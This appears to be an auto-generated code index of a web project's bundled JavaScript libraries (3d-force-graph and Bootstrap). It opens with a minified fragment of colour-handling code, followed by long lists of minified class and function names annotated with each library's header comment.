r=mu(t);n="#"+yu(r._r,r._g,r._b,r._a)}return"progid:DXImageTransform.Microsoft.gradient("+i+"startColorstr="+e+",endColorstr="+n+")"},toString:function(t){var e=!!t;t=t||this._format;var n=!1,i=this._a<1&&this._a>=0;return e||!i||"hex"!==t&&"hex6"!==t&&"hex3"!==t&&"hex4"!==t&&"hex8"!==t&&"name"!==t?("rgb"===t&&(n=this.toRgbString()),"prgb"===t&&(n=this.toPercentageRgbString()),"hex"!==t&&"hex6"!==t||(n=this.toHexString()),"hex3"===t&&(n=this.toHexString(!0)),"hex4"===t&&(n=this.toHex8String(!0)),"hex8"===t&&(n=this.toHex8String()),"name"===t&&(n=this.toName()),"hsl"===t&&(n=this.toHslString()),"hsv"===t&&(n=this.toHsvString()),n||this.toHexString()):"name"===t&&0===this._a?this.toName():this.toRgbString()},clone:function(){return mu(this.toString())},_applyModification:function(t,e){var n=t.apply(null,[this].concat([].slice.call(e)));return this._r=n._r,this._g=n._g,this._b=n._b,this.setAlpha(n._a),this},lighten:function(){return this._applyModification(Su,arguments)},brighten:function(){return this._applyModification(Eu,arguments)},darken:function(){return this._applyModification(wu,arguments)},desaturate:function(){return this._applyModification(xu,arguments)},saturate:function(){return this._applyModification(bu,arguments)},greyscale:function(){return this._applyModification(Mu,arguments)},spin:function(){return this._applyModification(Tu,arguments)},_applyCombination:function(t,e){return t.apply(null,[this].concat([].slice.call(e)))},analogous:function(){return this._applyCombination(Pu,arguments)},complement:function(){return this._applyCombination(Au,arguments)},monochromatic:function(){return this._applyCombination(Lu,arguments)},splitcomplement:function(){return this._applyCombination(Ru,arguments)},triad:function(){return this._applyCombination(Cu,[3])},tetrad:function(){return this._applyCombination(Cu,[4])}},mu.fromRatio=function(t,e){if("object"==du(t)){var n={};for(var i in t)t.hasOwnProperty(i)&&(n[i]="a"===i?t[i]:zu(t[i]));t=n}return mu(t,e)},mu.equals=function(t,e){return!(!t||!e)&&mu(t).toRgbString()==mu(e).toRgbString()},mu.random=function(){return mu.fromRatio({r:Math.random(),g:Math.random(),b:Math.random()})},mu.mix=function(t,e,n){n=0===n?0:n||50;var i=mu(t).toRgb(),r=mu(e).toRgb(),a=n/100;return mu({r:(r.r-i.r)*a+i.r,g:(r.g-i.g)*a+i.g,b:(r.b-i.b)*a+i.b,a:(r.a-i.a)*a+i.a})},*

**Classes:**
- `oe` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `ve` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `ye` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Oe` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Ne` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `ze` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Be` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `He` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Ve` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Ge` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `je` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `We` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Xe` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Ke` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `fn` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Mn` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Sn` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `In` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `On` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Zn` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `si` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `di` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `mi` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `gi` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `yi` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `xi` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `bi` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Mi` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Pi` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Yi` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Zi` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `er` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `nr` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `or` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `lr` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `cr` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `hr` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `fr` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `_r` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `xr` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Ir` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Wr` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `ra` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `io` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `ro` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `ao` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `co` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Lo` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Do` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Wo` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Xo` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Jo` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `extends` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `es` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `ns` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `is` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `ls` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `_s` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `vs` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `As` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Cs` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `extends` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `extends` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `extends` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `extends` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `extends` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `extends` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `extends` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Ps` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Ls` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Ds` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Is` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Us` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Fs` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `ks` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `zs` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Gs` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `js` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Ws` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Ys` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Js` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `ml` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `as` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Vh` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `extends` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `extends` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `as` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `Gd` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `bp` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `Fp` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `Xp` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `extends` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `Kp` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `Zp` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `Jp` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `Qp` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `tf` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `extends` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `extends` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `extends` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `extends` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*

**Functions:**
- `is` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `newNode` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `update` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `insertBodies` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `insert` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `isSamePosition` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `updateBoundingBox` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `resetBoundingBox` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `t` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `that` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `signature` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `signature` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `signature` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `Te` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `t` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `c` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `e` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `t` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `t` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Vr` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `e` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `l` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `y` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `n` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `u` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `s` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `g` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `c` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `b` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `u` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `e` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `differentBody` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `coefficient` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `r` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `t` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `n` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `r` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `r` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `i` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `e` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `h` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `v` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `n` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `l` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `r` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `s` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `n` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `e` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `t` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `hh` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `s` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `a` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Hh` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `e` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `Jh` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `e` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `y` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `uu` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `n` (line 2) - *Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph*
- `n` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `e` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `ld` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `pd` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `e` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `y` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `e` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `n` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `n` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `I` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `Md` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `cf` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `e` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `Ef` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `e` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*
- `r` (line 5) - *<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)*

#### `bootstrap-4.5.2.min.js`
**Path:** `static/js/bootstrap-4.5.2.min.js`
**File Doc:** *!*

**Functions:**
- `r` (line 6) - *! Bootstrap v4.5.2 (https://getbootstrap.com/) Copyright 2011-2020 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `i` (line 6) - *! Bootstrap v4.5.2 (https://getbootstrap.com/) Copyright 2011-2020 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `n` (line 6) - *! Bootstrap v4.5.2 (https://getbootstrap.com/) Copyright 2011-2020 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `s` (line 6) - *! Bootstrap v4.5.2 (https://getbootstrap.com/) Copyright 2011-2020 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `d` (line 6) - *! Bootstrap v4.5.2 (https://getbootstrap.com/) Copyright 2011-2020 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `h` (line 6) - *! Bootstrap v4.5.2 (https://getbootstrap.com/) Copyright 2011-2020 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `i` (line 6) - *! Bootstrap v4.5.2 (https://getbootstrap.com/) Copyright 2011-2020 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*

#### `bootstrap-5.3.0.bundle.min.js`
**Path:** `static/js/bootstrap-5.3.0.bundle.min.js`
**File Doc:** *!*

**Classes:**
- `W` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `q` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `K` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `Y` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `rt` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `ft` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `ci` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `pi` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `vi` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `Ti` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `Ni` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `zi` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `Ui` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `ln` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `dn` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `_n` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
- `xn` (line 6) - *! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)*
